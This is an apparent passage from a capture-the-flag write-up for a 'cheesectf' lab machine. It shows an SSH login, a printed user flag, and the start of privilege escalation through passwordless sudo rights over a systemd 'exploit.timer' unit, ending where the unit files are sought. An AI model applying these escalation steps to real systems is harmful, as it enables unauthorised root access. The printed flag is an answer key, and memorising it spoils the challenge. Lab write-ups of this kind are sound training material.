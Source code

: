 ```bash

ssh -i .ssh/id_ed25519 comte@10.10.117.167

```
> get the first **user flag**:

```bash

comte@cheesectf:~$ id
uid=1000(comte) gid=1000(comte) groups=1000(comte),24(cdrom),30(dip),46(plugdev)
comte@cheesectf:~$ cat user.txt

```
```bash

THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}

```

## Privilege Escalation

> check sudo -l:

```bash

comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer

```

> I see a list of commands that the user comte can execute with elevated privileges (sudo) without having to enter a password.
> These are commands for managing **systemd** - the Linux initialization system that manages units **.service**, **.timer**, **.socket**, etc.
> I can manage systemd using the **systemctl** utility.

> I'll try to restart the **exploit.timer** timer and see what it does:

```bash

comte@cheesectf:~$ sudo /bin/systemctl restart exploit.timer
Failed to restart exploit.timer: Unit exploit.timer has a bad unit file setting.
See system logs and 'systemctl status exploit.timer' for details.

```

> I get an error that the exploit.timer unit has an incorrect entry
> systemd unit files are stored in **/etc/systemd/system**:
